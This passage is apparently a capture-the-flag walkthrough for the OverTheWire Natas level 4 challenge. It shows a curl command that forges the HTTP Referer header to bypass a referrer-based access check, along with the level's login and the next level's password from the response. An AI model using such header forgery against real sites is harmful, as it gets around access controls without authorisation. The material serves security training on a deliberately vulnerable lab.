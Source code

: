 ![](img/task_4_image_1.png)  

So, we in the request, we need to set the `referer`. The referer is [an optional HTTP header field that identifies the address of the web page (i.e., the URI or IRI), from which the resource has been requested.](https://en.wikipedia.org/wiki/HTTP_referer) as stated in the Wikipedia page. So, by setting the referer header, we send information about our last page we've visited. Now, as we can see in the screenshot, we can visit the site only from http://natas5.natas.labs.overthewire.org/. That can be achieved by setting a referer header, as the following:  
```bash
curl http://natas4.natas.labs.overthewire.org/ -u natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm  --referer http://natas5.natas.labs.overthewire.org/`
```
Let's review the response, to get the password for the next level!  
```html
 <html>  
     <head>  
         <!-- This stuff in the header has nothing to do with the level -->  
         <link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">  
         <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />  
         <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />  
         <script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>  
         <script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>  
         <script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.verthewire.org/js/wechall.js"></script>  
         <script>var wechallinfo = { "level": "natas4", "pass": "tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm" };</script>  
     </head>  
 <body>  
     <h1>natas4</h1>  
     <div id="content">  
         Access granted. The password for natas5 is Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD  
     <br/>  
     <div id="viewsource"><a href="index.php">Refresh page</a></div></div>  
     </body>  
 </html>  
```
